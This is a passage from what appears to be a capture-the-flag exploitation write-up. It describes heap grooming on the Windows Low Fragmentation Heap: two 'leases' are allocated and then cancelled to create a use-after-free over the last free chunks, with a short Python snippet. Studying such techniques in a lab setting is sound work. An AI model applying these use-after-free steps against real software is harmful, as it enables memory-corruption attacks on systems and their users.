   <img src="writeup/exp3.png" style="width: 80%; border-radius: 0%;" />
</p>

We can then create two multi CPU leases. Each one of them will occupy one of the two free LFH chunks. If we now cancel them, we have UAF over the (only) two free chunks left in the LFH.

```python
uaf_id_1 = create(b"B" * 0x2, 4)
uaf_id_2 = create(b"B" * 0x2, 4)
cancel(uaf_id_1)
cancel(uaf_id_2)
```

<p align="middle" float="left">